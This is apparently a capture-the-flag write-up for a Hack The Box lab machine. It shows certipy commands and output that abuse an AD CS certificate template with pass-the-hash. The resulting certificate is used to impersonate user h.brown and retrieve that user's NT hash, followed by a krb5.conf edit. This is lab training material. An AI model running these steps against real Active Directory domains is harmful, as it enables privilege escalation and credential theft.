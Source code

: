 
## StaffAccessCertificate template abuse

```bash
certipy req -username "d.baker@scepter.htb" -hashes :18b5fb... -target "dc01.scepter.htb" -ca 'scepter-DC01-CA' -template 'StaffAccessCertificate'

Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 7
[*] Got certificate without identification
[*] Certificate has no object SID
[*] Saved certificate and private key to 'd.baker.pfx'
```

---

## Getting NT hash for h.brown

```bash
certipy auth -pfx d.baker.pfx -domain scepter.htb -dc-ip 10.10.11.65 -username h.brown

Certipy v4.7.0 - by Oliver Lyak (ly4k)

[!] Could not find identification in the provided certificate
[*] Using principal: h.brown@scepter.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'h.brown.ccache'
[*] Trying to retrieve NT hash for 'h.brown'
[*] Got hash for 'h.brown@scepter.htb': aad3b435b5
```
Hash: `aad3b4...:4ecf52...`

---

## Editing krb5.conf

```ini
[libdefaults]
    default_realm = SCEPTER.HTB
    dns_lookup_realm = false
    dns_lookup_kdc = true

[realms]
    SCEPTER.HTB = {
        kdc = dc01.scepter.htb
        admin_server = dc01.scepter.htb
    }

[domain_realm]
    .scepter.htb = SCEPTER.HTB
    scepter.htb = SCEPTER.HTB
```

---